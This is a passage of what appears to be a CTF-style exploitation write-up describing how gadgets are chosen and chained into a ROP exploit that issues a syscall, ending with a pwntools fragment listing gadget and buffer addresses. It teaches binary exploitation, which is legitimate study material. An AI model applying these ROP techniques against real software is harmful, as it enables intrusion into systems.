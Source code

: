 For rdx and rsi, we can go the easy way and just pop them from the stack, meaning we just put the pop gadget and the
value directly behind it. Very convenient. The gadgets look like this: pop rdx; adc al, 0xf6; ret;. They also
increment rax through the adc instruction, but if we set up rdx and rsi before setting up rax this is not a
problem because we initialize it to zero anyways.

For setting rdx, I also found pop rdx; xor ah, byte ptr [rsi - 9]; ret;. We could apply it twice to change back the
xor operation on rax, but this gadget reads from an address determined through rsi which will segfault in this
context.

The hardest is finding a gadget to set rdi. There is pop rdi; sete byte ptr [rsp + 0x10]; ret;, but this will set
a memory address near the stack pointer with the second instruction and thus mess up the ROP chain. The only other good
gadget option is pop rdi; dec dword ptr [rax + 0x21]; ret;,  but this decrements a memory address determined by rax.
In theory, we don't need to care about this address, but in my experiments the address would always be invalid and
thus crash the program too early.

I found a solution using the pop rax; or dh, dh; ret; gadget. It allows to set rax directly and therefore also makes
the above rax increment workaround unnecessary. I leave it in anyways. The important part is, we can now set rax to
some dummy address before executing the pop rdi gadget, and then the program does not crash. I use the address of the
fourth memory page from above, the heap, for this: 0x00567000.

Finally, we need the syscall instruction itself. Fortunately, this is straightforward as there is a syscall; ret;
gadget.

Now we can put together the gadget addresses and values. Before them, we put the same padding to offset to the stored
return address on the stack. I use the Python pwntools to have some more convenient functions in the exploit script.

python
eax0 = 0x000000000045b900  mov eax, 0; ret;
inc2rax = 0x0000000000419963  add rax, 2; mov dword ptr [rip + 0x14d61f], eax; ret;
poprdx = 0x000000000040830c  pop rdx; adc al, 0xf6; ret;
poprsi = 0x0000000000415574  pop rsi; adc al, 0xf6; ret;
syscall = 0x000000000045d329  syscall; ret;
poprax = 0x000000000040deac  pop rax; or dh, dh; ret;
poprdi = 0x000000000040eb97  pop rdi; dec dword ptr [rax + 0x21]; ret;

 addresses
buf = 0x00551000  use vmmap in GDB to find it
dummy = 0x00567000  heap

